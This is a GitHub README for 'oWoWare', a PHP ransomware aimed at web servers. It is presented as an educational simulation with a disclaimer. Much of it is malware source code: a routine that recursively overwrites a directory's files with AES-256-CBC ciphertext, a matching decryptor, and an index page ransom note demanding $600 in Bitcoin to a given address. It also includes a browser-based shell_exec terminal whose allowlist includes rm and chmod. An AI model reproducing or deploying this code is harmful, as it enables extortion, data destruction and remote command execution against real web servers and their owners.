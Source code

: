 **oWoWare** is ransomware focused on web servers, developed in PHP. It provides a secure interface for tool management and terminal command execution. With file encryption and decryption functionalities using `AES-256-CBC (Cipher Block Chaining with a 256-bit key)`, as well as an integrated terminal, **oWoWare** is designed for technical testing and raising awareness about protection against ransomware attacks.

#### Important Note

> oWoWare ransomware developed for educational, simulation, and attack demonstration purposes.<br>
> **The author** is not **responsible** for any misuse of it.
---

## Video POC
[![oWoWare Ransomware Simulation](https://img.youtube.com/vi/7Msibaqlpwc/0.jpg)](https://www.youtube.com/watch?v=7Msibaqlpwc)


## Description

### 1. **File Encryption:**
   - **Encryption Type Used**: 
     - **AES-256-CBC** (Cipher Block Chaining with a 256-bit key) is used, a symmetric encryption algorithm. 
     - The encryption key must be at least 32 characters long to ensure security in this mode.
     - The code also generates an **IV (Initialization Vector)** using `openssl_random_pseudo_bytes()`, which is concatenated to the encrypted content and stored alongside the file.

```php
$iv_length = openssl_cipher_iv_length('AES-256-CBC');
$iv = openssl_random_pseudo_bytes($iv_length);

$encrypted_contents = openssl_encrypt($file_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
$final_content = $iv . $encrypted_contents;
file_put_contents($file_path, $final_content);
```

   - **Encryption Process**:
     - Each file in the specified directory is encrypted, skipping files named `index.html` or `index.php`.
     - The encrypted content includes the ***IV*** and the encrypted content concatenated. This encrypted content replaces the original file.

```php
function encrypt_directory($target_dir, $key, &$processed_files, &$error_files) {
    // Iterate over files and subdirectories
    foreach ($iterator as $item) {
        if ($item->isFile()) {
            // Encrypt the file content
            $iv = openssl_random_pseudo_bytes($iv_length);
            $encrypted_contents = openssl_encrypt($file_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
            $final_content = $iv . $encrypted_contents;
            file_put_contents($file_path, $final_content);
        }
    }
}
```
     
   - **Error Handling**:
     - The code handles errors in file reading, IV generation, encryption, and writing the encrypted files.
     - Errors are stored in the `$error_files` array, and successfully processed files are listed in `$processed_files`.


### 2. **File Decryption:**
   - **Decryption Process**:
     - The ***IV*** is extracted from the encrypted content and used to decrypt the files using the same symmetric key `(AES-256-CBC)`.
     - The decrypted files are rewritten with the original content, restoring the file.
   
   - **Error Handling**:
     - Errors in reading, decrypting, and writing files are handled similarly to the encryption process.

```php
     function decrypt_directory($target_dir, $key, &$processed_files, &$error_files) {
    foreach ($iterator as $item) {
        if ($item->isFile()) {
            $iv = substr($file_contents, 0, $iv_length);
            $encrypted_contents = substr($file_contents, $iv_length);
            $decrypted_contents = openssl_decrypt($encrypted_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
            file_put_contents($file_path, $decrypted_contents);
        }
    }
}
```


### 3. **Login and Security Management:**
   - **Authentication**:
     - The login system compares a predefined username (`admin`) and a password stored as a **bcrypt hash**.
     - The stored hash uses bcrypt with a work factor of 15, ensuring brute force attempts are slow.
     - It protects against brute force attacks by limiting login attempts to 5 failed attempts before locking the user out for 15 minutes.
   
   - **CSRF Tokens (Cross-Site Request Forgery)**:
     - To protect against CSRF attacks, a CSRF token is generated and validated on each POST request.
   
   - **Session ID Regeneration**:
     - Once the user successfully authenticates, a new session is generated with `session_regenerate_id(true)` to prevent session fixation attacks.

```php
     define('USERNAME', 'admin');
define('PASSWORD_HASH', '$2a$15$xEbegd2Cf26u2/2dw4LLXu0uJbqifWGFWXXh0gBkTDoImJOCJ5Ogu');

if ($username === USERNAME && password_verify($password, PASSWORD_HASH)) {
    session_regenerate_id(true);
    $_SESSION['authenticated'] = true;
    $_SESSION['login_attempts'] = 0;
    unset($_SESSION['locked_until']);
}
```

### 4. **File Encryption by Directory**:
   - The user can specify a directory to encrypt or decrypt files. The directory path is validated before proceeding.
   - The code uses `RecursiveDirectoryIterator` and `RecursiveIteratorIterator` to iterate through the files and directories within the target directory.
   
### 5. **Files Created When Encrypting the Directory**:
   - **`index.html` or `index.php` Files**:
     - An `index.php` or `index.html` file is generated or updated in each encrypted directory with a message indicating that the files have been encrypted.
     - The file content includes a message simulating a ransomware attack, demanding $600 in Bitcoin to a specific address.

```php
function create_index_file($dir_path, &$error_files) {
    $content = "
<pre><center><b>
         __      ____      __     
        / /     / __ \     \ \    
       / / ___ | |  | | ___ \ \   
      > / / _ \| |  | |/ _ \ > \  
     / ^ ( (_) )\ \/ /( (_) ) ^ \ 
    /_/ \_\___(___||___)___/_/ \_\
                     oWoWare V.1.0
<h2>Ooops, your files have been encrypted!</h2>
Send $600 worth of bitcoin to this address:
bc1qar0srrr7xfkvy5l643lydnw9re59gtzzwf8ch7
</pre></center></b>";
    file_put_contents($index_file, $content);
}
```

### 6. **Integrated Terminal Functionality**:
   - The system has an integrated terminal that allows commands to be executed from the browser.
   - Allowed commands are restricted by a whitelist (`$allowed_commands`), which includes common system administration commands like `ls`, `cd`, `whoami`, `ping`, among others.
   - The results of the executed commands are displayed in real-time in the user interface. 
   - Each executed command is logged in a log file in the `logs/commands.log` directory.

```php
$allowed_commands = ['ls', 'pwd', 'cat', 'cp', 'mv', 'rm', 'mkdir', 'chmod', 'chown', 'ping', 'top', 'df', 'uname', ...];

if (in_array($base_command, $allowed_commands)) {
    $safe_command = escapeshellcmd($command);
    $output = shell_exec($safe_command . ' 2>&1');
}
```

### 7. **Password Management for Encrypting/Decrypting**:
   - The user must provide an encryption key (minimum of 32 characters) to encrypt or decrypt the files.
   - If the key is less than 32 characters, an error is shown indicating that the key is insufficient.
```php
if (strlen($key) < 32) {
    $encryption_error = "The key must be at least 32 characters for AES-256.";
}
```
---

## ⚠️# Important Note

> oWoWare ransomware developed for educational, simulation, and attack demonstration purposes.<br>
> **The author** is not **responsible** for any misuse of it.
---
